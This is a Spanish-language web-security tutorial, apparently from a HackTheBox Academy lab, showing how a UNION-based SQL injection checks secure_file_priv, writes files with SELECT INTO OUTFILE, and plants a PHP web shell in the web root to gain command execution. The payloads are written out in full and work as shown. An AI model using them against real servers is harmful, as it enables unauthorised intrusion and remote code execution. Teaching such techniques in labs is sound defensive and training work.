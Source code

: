 
## Write File Privileges

Para poder escribir archivos en el servidor back-end usando una base de datos MySQL, necesitamos tres cosas:

1. Usuario con el privilegio `FILE` habilitado.
2. Variable global `secure_file_priv` de MySQL no habilitada.
3. Acceso de escritura a la ubicación donde queremos escribir en el servidor back-end.

Ya hemos comprobado que nuestro usuario actual tiene el privilegio `FILE` necesario para escribir archivos. Ahora debemos verificar si la base de datos MySQL tiene ese privilegio. Esto se puede hacer comprobando la variable global `secure_file_priv`.

### secure_file_priv

La variable [secure_file_priv](https://mariadb.com/kb/en/server-system-variables/#secure_file_priv) se usa para determinar desde dónde leer/escribir archivos. Un valor vacío nos permite leer archivos de todo el sistema de archivos. De lo contrario, si se establece un directorio específico, solo podemos leer desde la carpeta especificada por la variable. Por otro lado, `NULL` significa que no podemos leer/escribir desde ningún directorio. MariaDB tiene esta variable configurada como vacía por defecto, lo que nos permite leer/escribir en cualquier archivo si el usuario tiene el privilegio `FILE`. Sin embargo, `MySQL` usa `/var/lib/mysql-files` como la carpeta predeterminada. Esto significa que leer archivos a través de una inyección `MySQL` no es posible con la configuración predeterminada. Aún peor, algunas configuraciones modernas predeterminan a `NULL`, lo que significa que no podemos leer/escribir archivos en ningún lugar dentro del sistema.

Entonces, veamos cómo podemos averiguar el valor de `secure_file_priv`. Dentro de `MySQL`, podemos usar la siguiente consulta para obtener el valor de esta variable:

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

Sin embargo, como estamos usando una inyección `UNION`, tenemos que obtener el valor usando una declaración `SELECT`. Esto no debería ser un problema, ya que todas las variables y la mayoría de las configuraciones están almacenadas dentro de la base de datos `INFORMATION_SCHEMA`. Las variables globales de `MySQL` están almacenadas en una tabla llamada [global_variables](https://dev.mysql.com/doc/refman/5.7/en/information-schema-variables-table.html), y según la documentación, esta tabla tiene dos columnas `variable_name` y `variable_value`.

Tenemos que seleccionar estas dos columnas de esa tabla en la base de datos `INFORMATION_SCHEMA`. Hay cientos de variables globales en una configuración de MySQL, y no queremos recuperar todas. Entonces filtraremos los resultados para mostrar solo la variable `secure_file_priv`, usando la cláusula `WHERE` que aprendimos en una sección anterior.

La consulta SQL final es la siguiente:

```sql
SELECT variable_name, variable_value FROM information_schema.global_variables WHERE variable_name="secure_file_priv"
```

Entonces, similar a otras consultas de inyección `UNION`, podemos obtener el resultado de la consulta anterior con el siguiente payload. Recuerda agregar dos columnas más `1` y `4` como datos basura para tener un total de 4 columnas:

```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables WHERE variable_name="secure_file_priv"-- -
```

`http://SERVER_IP:PORT/search.php?port_code=cn`

![](https://academy.hackthebox.com/storage/modules/33/secure_file_priv.jpg)

Y el resultado muestra que el valor de `secure_file_priv` está vacío, lo que significa que podemos leer/escribir archivos en cualquier ubicación.

---

## SELECT INTO OUTFILE

Ahora que hemos confirmado que nuestro usuario debería escribir archivos en el servidor back-end, intentemos hacerlo usando la declaración `SELECT .. INTO OUTFILE`. La declaración [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/) se puede usar para escribir datos de consultas select en archivos. Esto generalmente se usa para exportar datos de tablas.

Para usarlo, podemos agregar `INTO OUTFILE '...'` después de nuestra consulta para exportar los resultados al archivo que especificamos. El siguiente ejemplo guarda la salida de la tabla `users` en el archivo `/tmp/credentials`:

```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

Si vamos al servidor back-end y usamos `cat` en el archivo, vemos que el contenido de la tabla:

```sh
cat /tmp/credentials 

1       admin   392037dbba51f692776d6cefb6dd546d
2       newuser 9da2c9bcdf39d8610954e0e11ea8f45f
```

También es posible seleccionar directamente cadenas en archivos, lo que nos permite escribir archivos arbitrarios en el servidor back-end.

```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

Cuando hacemos `cat` del archivo, vemos ese texto:

```sh
cat /tmp/test.txt 

this is a test
```

```sh
ls -la /tmp/test.txt 

-rw-rw-rw- 1 mysql mysql 15 Jul  8 06:20 /tmp/test.txt
```

Como podemos ver arriba, el archivo `test.txt` se creó correctamente y es propiedad del usuario `mysql`.

Tip: Las exportaciones avanzadas de archivos utilizan la función 'FROM_BASE64("base64_data")' para poder escribir archivos largos/avanzados, incluidos datos binarios.

---

## Writing Files through SQL Injection

Intentemos escribir un archivo de texto en la raíz web y verificar si tenemos permisos de escritura. La consulta a continuación debería escribir `file written successfully!` en el archivo `/var/www/html/proof.txt`, al cual luego podemos acceder en la aplicación web:

```sql
select 'file written successfully!' into outfile '/var/www/html/proof.txt'
```

**Nota:** Para escribir una web shell, debemos conocer el directorio web base del servidor web (es decir, la raíz web). Una forma de encontrarlo es usar `load_file` para leer la configuración del servidor, como la configuración de Apache que se encuentra en `/etc/apache2/apache2.conf`, la configuración de Nginx en `/etc/nginx/nginx.conf`, o la configuración de IIS en `%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`, o podemos buscar en línea otras posibles ubicaciones de configuración. Además, podemos ejecutar un escaneo de fuzzing e intentar escribir archivos en diferentes posibles raíces web, usando [esta wordlist para Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) o [esta wordlist para Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). Finalmente, si nada de lo anterior funciona, podemos usar errores del servidor que se nos muestren e intentar encontrar el directorio web de esa manera.

El payload de inyección `UNION` sería el siguiente:

```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```

`http://SERVER_IP:PORT/search.php?port_code=cn`

![](https://academy.hackthebox.com/storage/modules/33/write_proof.png)

No vemos ningún error en la página, lo que indica que la consulta tuvo éxito. Comprobando el archivo `proof.txt` en la raíz web, vemos que efectivamente existe:

`http://SERVER_IP:PORT/proof.txt`

![](https://academy.hackthebox.com/storage/modules/33/write_proof_text.png)

Nota: Vemos la cadena que volcamos junto con '1', '3' antes de ella y '4' después de ella. Esto se debe a que se escribió el resultado completo de la consulta `UNION` en el archivo. Para hacer la salida más limpia, podemos usar "" en lugar de números.

---

## Writing a Web Shell

Habiendo confirmado los permisos de escritura, podemos proceder a escribir un web shell en la carpeta raíz web. Podemos escribir el siguiente web shell en PHP para poder ejecutar comandos directamente en el servidor back-end:

```php
<?php system($_REQUEST[0]); ?>
```

Podemos reutilizar nuestro payload de inyección `UNION` anterior, y cambiar la cadena a la anterior, y el nombre del archivo a `shell.php`:

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

`http://SERVER_IP:PORT/search.php?port_code=cn`

![](https://academy.hackthebox.com/storage/modules/33/write_shell.png)

Una vez más, no vemos ningún error, lo que significa que probablemente la escritura del archivo funcionó. Esto se puede verificar navegando al archivo `/shell.php` y ejecutando comandos a través del parámetro `0`, con `?0=id` en nuestra URL:

`http://SERVER_IP:PORT/shell.php?0=id`

![](https://academy.hackthebox.com/storage/modules/33/write_shell_exec_1.png)

La salida del comando `id` confirma que tenemos ejecución de código y estamos ejecutando como el usuario `www-data`.

---

